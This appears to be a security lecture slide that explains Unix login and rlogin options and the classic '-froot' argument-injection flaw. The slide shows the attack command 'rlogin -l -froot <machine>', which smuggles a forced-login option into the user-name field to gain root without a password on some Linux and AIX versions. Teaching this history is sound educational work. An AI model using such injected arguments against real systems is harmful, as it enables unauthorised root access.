

# Unix rlogin
Unix login command:
login [[-p] [-h<host>] [[-f]<user>]
-f option “forces” log in: user is not asked for password
Unix rlogin command for remote login:
rlogin [-l<user>] <machine>
The rlogin daemon sends a login request for <user> to <machine>
Attack (some versions of Linux, AIX):
% rlogin -l -froot <machine>
Results in forced login as root at the designated machine
% login -froot <machine>